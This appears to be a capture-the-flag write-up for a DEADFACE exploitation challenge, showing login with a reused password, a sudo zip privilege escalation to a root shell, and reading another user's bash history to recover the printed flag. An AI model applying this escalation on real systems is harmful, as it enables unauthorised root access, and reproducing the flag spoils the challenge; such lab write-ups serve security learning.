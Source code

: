 # Dead Men Tell No Tales
![Category](http://img.shields.io/badge/Category-Exploitation-orange?style=for-the-badge) ![Points](http://img.shields.io/badge/Points-400-brightgreen?style=for-the-badge)

## Details

>We've discovered a remote system used by DEADFACE. We're not sure what the password is, but we know Donnell Aulner has an account on that machine. We believe DEADFACE has stored valuable information on this machine. The flag exists on the machine in the format flag{some-text-here}. Submit the flag as flag{flag-goes-here}.
>
>Username: dracula
>
>deadmen.deadface.io:22
---

There is no password given in this challenge, but we do have a password which `dracula` used previosuly from another challenge [link here]()

Using that password we can access the shell.

Once logged in we have a look around but can see any obvious files. So next we run `sudo -l`

```bash
dracula@c0d89345e437:~$ sudo -l
Matching Defaults entries for dracula on c0d89345e437:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User dracula may run the following commands on c0d89345e437:
    (ALL) NOPASSWD: /usr/bin/zip
```

We can take advantage of a Priv Esc availble in the zip executable as detailed [here](https://gtfobins.github.io/gtfobins/zip/).

```bash
$ TF=$(mktemp -u)
$ sudo /usr/bin/zip $TF /etc/hosts -T -TT 'sh #'
  adding: etc/hosts (deflated 34%)
# whoami
root
```

Now that we're root, lets look as what files are in the home directories.

```bash
# ls -alR /home
/home:
total 28
drwxr-xr-x 1 root      root      4096 Sep 19 01:37 .
drwxr-xr-x 1 root      root      4096 Oct 19 15:30 ..
drwxr-xr-x 2 d34th     d34th     4096 Sep 19 01:37 d34th
drwxr-xr-x 1 dracula   dracula   4096 Sep 19 01:44 dracula
drwxr-xr-x 1 spookyboi spookyboi 4096 Sep 19 01:39 spookyboi

/home/d34th:
total 24
drwxr-xr-x 2 d34th d34th 4096 Sep 19 01:37 .
drwxr-xr-x 1 root  root  4096 Sep 19 01:37 ..
-rw-r--r-- 1 d34th d34th  220 Sep 19 01:37 .bash_logout
-rw-r--r-- 1 d34th d34th 3771 Sep 19 01:37 .bashrc
-rw-r--r-- 1 d34th d34th  807 Sep 19 01:37 .profile

/home/dracula:
total 36
drwxr-xr-x 1 dracula dracula 4096 Sep 19 01:44 .
drwxr-xr-x 1 root    root    4096 Sep 19 01:37 ..
-rw------- 1 dracula dracula    1 Sep 19 01:45 .bash_history
-rw-r--r-- 1 dracula dracula  220 Sep 19 01:37 .bash_logout
-rw-r--r-- 1 dracula dracula 3771 Sep 19 01:37 .bashrc
drwxrwxr-x 3 dracula dracula 4096 Sep 19 01:44 .local
-rw-r--r-- 1 dracula dracula  807 Sep 19 01:37 .profile

/home/dracula/.local:
total 16
drwxrwxr-x 3 dracula dracula 4096 Sep 19 01:44 .
drwxr-xr-x 1 dracula dracula 4096 Sep 19 01:44 ..
drwx------ 3 dracula dracula 4096 Sep 19 01:44 share

/home/dracula/.local/share:
total 12
drwx------ 3 dracula dracula 4096 Sep 19 01:44 .
drwxrwxr-x 3 dracula dracula 4096 Sep 19 01:44 ..
drwx------ 2 dracula dracula 4096 Sep 19 01:44 nano

/home/dracula/.local/share/nano:
total 8
drwx------ 2 dracula dracula 4096 Sep 19 01:44 .
drwx------ 3 dracula dracula 4096 Sep 19 01:44 ..

/home/spookyboi:
total 28
drwxr-xr-x 1 spookyboi spookyboi 4096 Sep 19 01:39 .
drwxr-xr-x 1 root      root      4096 Sep 19 01:37 ..
-rw------- 1 spookyboi spookyboi   93 Sep 19 01:39 .bash_history
-rw-r--r-- 1 spookyboi spookyboi  220 Sep 19 01:37 .bash_logout
-rw-r--r-- 1 spookyboi spookyboi 3771 Sep 19 01:37 .bashrc
-rw-r--r-- 1 spookyboi spookyboi  807 Sep 19 01:37 .profile
```
There's not a lot, but there are some hidden files in spookyboi's home folder.

Lets take a look at his `.bash_history`

```bash
# cat /home/spookyboi/.bash_history
cd ~
echo "flag{c4c089cdbe222b9360880a07c987b581c6f51609}" > flag.txt
rm flag.txt
exit
exit
#

```
And there's our flag!

## flag{c4c089cdbe222b9360880a07c987b581c6f51609}
